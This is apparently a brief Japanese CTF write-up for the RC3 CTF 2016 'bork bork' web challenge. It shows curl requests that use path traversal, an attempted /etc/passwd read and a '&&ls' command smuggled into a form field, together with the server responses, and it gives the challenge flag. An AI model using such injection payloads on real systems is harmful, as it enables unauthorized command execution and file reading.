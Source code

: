 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/11/21/rc3-ctf-2016-bork-bork/
date: "2016-11-21T17:47:26+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "os-command-injection" ]
---
```


# RC3 CTF 2016: bork bork


れべな氏にosコマンドインジェクションと言われて続きをやった。
`cat borks/${bork}`で入るので`../bork.txt`を読めばflag: `RC3-2016-L057d0g3`。
分かりにくいファイル名はやめろ。

`;`や`*`は禁止文字だったぽい？

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='/etc/passwd'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="cat: borks//etc/passwd: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='TheBorkFiles.txt&&ls'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="https://www.youtube.com/embed/AuRXVMSG3po
auto_bork.sh
bork.ini
bork.py
bork.pyc
borks
bork.sock
bork.txt
static
templates
wsgi.py
wsgi.pyc?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```
